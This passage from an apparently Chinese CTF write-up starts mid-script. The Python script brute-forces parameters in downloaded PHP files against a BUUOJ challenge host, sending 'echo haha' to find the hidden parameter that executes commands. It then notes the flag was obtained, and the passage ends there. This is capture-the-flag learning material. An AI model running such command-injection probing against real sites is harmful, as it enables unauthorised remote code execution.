 ```
        data[name] = command
    return params, data
 
def url_explosion(url, path, command):   #确定有效的php文件
    params, data = read_file(path,command)
    try:
        r = requests.session().post(url, data = data, params = params)
        if r.text.find("haha") != -1 :
            print(url,"\n")
            find_params(url, params, data)         
 
    except:
        print(url,"异常")
   
def find_params(url, params, data):   #确定最终的有效参数
    try:
        for pa in params.keys():
            temp = {pa:params[pa]}
            r = requests.session().post(url, params = temp)
            if r.text.find("haha") != -1 :
                print(pa)
                os.system("pause")
                
    except:
        print("error!\n")
    try:
        for da in data.items():
            temp = {da:data[da]}
            r = requests.session().post(url, data = temp)
            if r.text.find("haha") != -1 :
                print(da) 
                os.system("pause")
    except:
        print("error!\n")
 
 
rootdir = "C:\Users\True\Downloads\www\src"  #php文件存放地址
list = os.listdir(rootdir)
for i in range(0, len(list)):
    path = os.path.join(rootdir ,list[i])
    name = list[i].split('-2')[0]   #获取文件名
    url = "http://d0c4841b-992a-4800-8e44-2527f2e8a966.node3.buuoj.cn/" + name
    url_explosion(url,path,"echo haha")  


```

单线程的脚本，跑完大概花了10分钟……

<img src="https://img-blog.csdnimg.cn/20200818175716859.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 4、尝试进行利用，成功获得Flag：
